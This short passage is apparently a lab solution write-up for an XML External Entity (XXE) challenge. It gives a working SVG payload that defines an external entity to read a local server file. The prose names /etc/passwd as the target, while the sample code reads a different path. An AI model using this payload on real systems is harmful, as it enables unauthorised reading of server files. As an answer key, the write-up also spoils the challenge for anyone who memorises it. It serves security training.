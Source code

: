 ### Solution for "Improper Restriction of XML External Entity Reference ('XXE')" challenge

This challenge showcase a vulnerability thru DTDs which allow the creation of XML entities.

To pass the challenge simply create a xml file named as a svg file, which access the path **`/etc/passwd`**. Please refference the sample code as below.

    <?xml version="1.0" encoding="utf-8"?>
    <!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///var/www/myapp/welcome.txt">]>
    <svg width="100" height="100"><text x="10" y="20" fill="red">&xxe;</text></svg>
